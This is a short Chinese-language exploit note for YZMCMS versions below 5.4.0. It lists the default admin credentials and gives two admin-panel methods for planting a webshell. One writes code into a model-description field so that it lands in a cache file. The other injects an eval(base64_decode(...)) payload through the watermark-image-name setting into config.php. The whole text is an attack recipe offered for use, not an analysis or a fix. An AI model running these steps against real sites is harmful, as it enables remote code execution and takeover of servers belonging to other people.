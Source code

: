

# YZMCMS



---

影响版本：5.4.0以下

默认账密：yzmcms/yzmcms

后台get5he11-1：

```
前提：
common/config/config.php
file_config/mode=1 为序列化缓存格式
---
/内容管理/模型管理/编辑模型/模型介绍 写入web5he11
然后访问前台让其生成新的缓存文件
http://域名/cache/chche_file/modelinfo.cache.php
```

后台get5he11-2：

```
/系统管理/系统设置/附加设置/水印图片名称写入：（$1会转义成单引号）
$1,eval(base64_decode($1c3lzdGVtKCdlY2hvIDEyMycpOw==$1)),$1
访问http://域名/common/config/config.php
```

